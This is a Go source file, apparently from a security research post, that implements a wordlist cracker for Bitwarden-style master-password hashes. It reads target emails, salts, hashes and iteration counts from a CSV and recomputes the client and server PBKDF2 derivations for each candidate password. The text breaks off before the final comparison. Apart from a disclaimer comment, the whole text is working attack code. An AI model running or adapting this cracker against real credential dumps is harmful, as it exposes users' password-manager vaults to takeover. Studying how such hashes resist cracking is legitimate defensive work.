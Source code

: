 {% highlight go %}
package main

import (
	"bufio"
	"crypto/sha256"
	"encoding/base64"
	"encoding/csv"
	"encoding/hex"
	"fmt"
	"log"
	"os"
	"strconv"
	"strings"

	"golang.org/x/crypto/pbkdf2"
)

const hexPrefix = "\\x"

type User struct {
	Email            string
	Salt             string
	Hash             string
	ClientIterations int
	ServerIterations int
}

/*
*	FOR RESEARCH, EDUCATION & DEMONSTRATION PURPOSES ONLY.
*	DO NOT USE FOR MALICIOUS PURPOSES OR WITHOUT PERMISSION.
*	The following code is ONLY for demo purposes.
*	For actual hash cracking it could be heavily optimized.
 */
func main() {
	targetsPath := os.Args[1]
	wordlist := os.Args[2]
	users := parseCSV(targetsPath)
	passwords := parseWordlist(wordlist)

	for _, user := range users {
		for _, password := range passwords {
			if crack(user.Email, password, user.Salt, user.Hash, user.ClientIterations, user.ServerIterations) {
				fmt.Printf("Found! Email: %s, Password: %s\n", user.Email, password)
				break
			}
		}
	}
}

func crack(email string, password string, salt string, hash string, clientIterations int, serverIterations int) bool {
	// hxxps[://]bitwarden[.]com/help/bitwarden-security-white-paper/

	// Client part
	masterPassword := []byte(password)
	clientSalt := []byte(email)
	masterKey := pbkdf2.Key(masterPassword, clientSalt, clientIterations, 32, sha256.New)
	rawMasterPasswordHash := pbkdf2.Key(masterKey, masterPassword, 1, 32, sha256.New)
	clientBase64Hash := base64.StdEncoding.EncodeToString(rawMasterPasswordHash)

	// Server part
	serverSalt, _ := hex.DecodeString(salt)
	rawServerPasswordHash := pbkdf2.Key([]byte(clientBase64Hash), serverSalt, serverIterations, 32, sha256.New)
	hexServerPasswordHash := hex.EncodeToString(rawServerPasswordHash)

